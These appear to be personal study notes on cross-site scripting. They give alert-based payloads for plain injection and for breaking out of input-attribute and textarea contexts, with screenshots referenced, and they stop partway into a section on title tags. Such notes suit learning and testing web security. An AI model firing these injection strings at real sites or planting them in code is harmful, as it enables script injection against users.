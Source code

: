 ____

# Basic XSS

```html
<script>alert("1")</script>
```

![[Pasted image 20241120124025.png]]

# Escaping Context

## Input

```html
<input value="test">
```

```html
"><script>alert(1)</script>
```

![[Pasted image 20241120125055.png]]

```html
" onmouseover=alert(1);//
```

![[Pasted image 20241120125551.png]]

## Textarea

```html
<textarea>test</textarea>
```

```html
</textarea><script>alert(1)</script>
```

![[Pasted image 20241120131231.png]]

## Title

```html
<title>Welcome, test</
```